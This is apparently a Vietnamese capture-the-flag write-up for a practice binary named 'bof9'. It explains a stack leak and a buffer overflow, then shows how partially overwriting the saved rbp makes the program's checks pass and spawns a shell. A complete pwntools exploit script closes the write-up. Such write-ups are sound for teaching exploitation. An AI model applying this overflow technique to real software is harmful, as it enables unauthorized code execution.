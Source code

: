![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/99f4bd79-f263-407b-ae5d-11ce82f66bcc)# bof9
## Tự hành:
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/0c59e8b4-fc6d-4939-80e5-a2ff9389d0d8)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/e6ad1d7c-3e59-47f8-8359-e08e8014f2ef)
- Với mỗi biến `v1` và `buf` thì mỗi biến có kiểu `int64` = 8byte và có 4 phần tử cho nên cũng có thể hiểu như là 1 biến char với 32 ký tự vậy(như ảnh ở dưới).
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/25005cbe-7104-4106-8180-86ecbf9a7664)
- Khi chạy thử file thì ta nhận đc địa chỉ stack của biến `v4` và chúng ta cùng tiến hành lấy cái địa chỉ stack này thôi , và trong hàm `get_credential` bạn có thể thấy lỗi bof ở ngày biến `buf` vì vậy ta cũng sẽ vào terminal để cùng xem cách mà lỗi này hoạt động.
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/3a7c3632-3781-46b0-a478-7407a5560bd4)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/8e457413-2506-4fcf-b1d8-bd0a40dc4766)
- Với mod DEBUG thì ta đã kiểm tra đc dữ liệu stack lấy đã đúng ta cần phải kiểm tra cách mà lỗi bof hoạt động nữa là xong , từ đó ta sẽ có hướng giải như sau.
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/33d74aba-3a69-4fbc-a38d-fbee173a4899)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/2f00dba1-05f1-4231-b1a8-0bd5cc4069fb)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/883a89b4-532c-42a8-a9be-41ff5dd82051)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/f42702b7-260a-4087-8a71-220dfec04e29)
- Từ những thông tin trên những tấm ảnh thì ta có thể hiểu như sau: ở ảnh thứ 4 khi so sánh nó sẽ trỏ đến địa chỉ thanh ghi `rbp` trừ đi 1 khoản = `0x20`. Để giải bài này thì chúng ta có thể `overwrite rbp` để nó trỏ đến những giá trị mà điều kiện đề bài yêu cầu thay vì trỏ đến những thứ mà chương trình cho sẵn
- Bước đầu chúng ta sẽ tính chính xác điểm trỏ đến ở nơi chúng ta sẽ nhập vào đk của chương trình (đk của chương trình : `0x13371337` ,`0xCAFEBABE` và `0xDEADBEEF`)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/2f47029d-39aa-45c7-b6a4-cf8e3cba6c36)
- Khi tính toán thì ở địa chỉ mà stack mà ta leak đc ta sẽ trừ đi 1 khoản = 0x30 để có thể trỏ đến nơi mà ta sẽ nhập và khi vào hàm main nó sẽ trỏ đến 1 địa chỉ rbp-0x20 vì vậy ta cần cộng thêm để giữ nguyên vị trí mà ta sẽ nhập vào đk.
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/8d6c799e-e31e-4bb1-b905-ba9d55a12ecc)
- tools của chúng ta hoàn thành sẽ đc như sau và giải thích 1 chút ở lệnh `payload += p64(fake_save_rbp)[0:2]` thì hiểu đơn giản ở đây từ 1 địa chỉ 8 byte với câu lệnh này nó sẽ gửi vào chỉ có 2 byte cuối như ta đã tính đc :Đ ( hiểu tới đó thui hehe).
```- 1 lưu ý nho nhỏ là bài này chúng ta vốn dĩ có thể làm bằng cách này là vì khi chương trình thực hiện hàm `get_credential` và trả ra dữ liệu nhập vào , ngay lập tức hàm main so sánh các đk,vì thế mà các giá trị ở stack đc lưu lại. Nếu như mà main thực hiện 1 hàm khác để làm điều đó thì cách địa chỉ stack sẽ bị thay đổi để chừa cho các biến trong hàm :(( ( khổ chưa mà :Đ ). Ae mà siêng thì chạy đến đc hàm system thì các giá trị mà ta nhập vào sẽ overwrite ngay lập tức :)) còn tui lười quá nên hong làm âu :>> ```
- Chạy thử tools thì ta đã thành công nhận đc shell.
- ![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/85fa0524-9f5f-4cc3-98d5-398b355fc9b7)
## source code: 
```
#!/usr/bin/python3
from pwn import *
exe = ELF('./bof9', checksec=False)

p=process(exe.path)


#gdb.attach(p, gdbscript = '''
#b*get_credential+115
#c
#)
#input()

p.recvuntil(b'user: ')
stack_leak = int(p.recvline(), 16)
log.info("stack leak: " + hex(stack_leak))
user_name = stack_leak - 0x30
fake_save_rbp = user_name + 0x20

payload =p64(0x13371337)
payload +=p64(0xDEADBEEF)
payload +=p64(0xCAFEBABE)
payload +=p64(0)
payload += p64(fake_save_rbp)[0:2]

p.sendafter(b'Username: ', payload)
p.sendafter(b'Password: ', b'a'*8)
p.interactive()
```
